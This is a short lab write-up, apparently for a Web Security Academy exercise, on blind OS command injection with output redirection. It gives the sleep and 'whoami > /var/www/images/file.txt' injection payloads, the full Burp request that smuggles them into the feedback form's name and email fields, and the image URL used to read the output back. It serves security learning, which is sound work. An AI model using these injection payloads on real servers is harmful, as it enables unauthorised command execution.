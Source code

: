# Lab - 03

Topic :  Blind OS command injection with output redirection

Concept:  Output redirection of blind out command injection into given file

End Goal : running whoami on the server

Analysis : 

- Like the previous lab, we use the payload

```
& sleep 10 #
```

- To find the vuln parameter
- Then we redirect the output to a certain file using the following payload

```
qw@qw.com & whoami > /var/www/images/file.txt # [url encoded]
```

- Burp suite final request

```
POST /feedback/submit HTTP/2
Host: 0a14000103771db6815e9d7f00d6000d.web-security-academy.net
Cookie: session=HEENDxmhM9Vm9VAsLilU484mu5X7gnKj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 172
Origin: https://0a14000103771db6815e9d7f00d6000d.web-security-academy.net
Referer: https://0a14000103771db6815e9d7f00d6000d.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=fFzPnpGstRNyzFoKjGOd0IRVDcA8Ai5e&name=qw%20%26%20sleep%2010%20%23&email=qw%40qw.com%20%26%20whoami%20%3e%20%2fvar%2fwww%2fimages%2ffile.txt%20%23&subject=qw&message=qw
```

- Then we find the url from which the images are loaded

```
https://0a14000103771db6815e9d7f00d6000d.web-security-academy.net/image?filename=4.jpg
```

- Here we change the filename to the one we want.
- In this case it is file.txt
- Final URL to get the output

```
https://0a14000103771db6815e9d7f00d6000d.web-security-academy.net/image?filename=file.txt
```

- And we can see the output and lab is solved.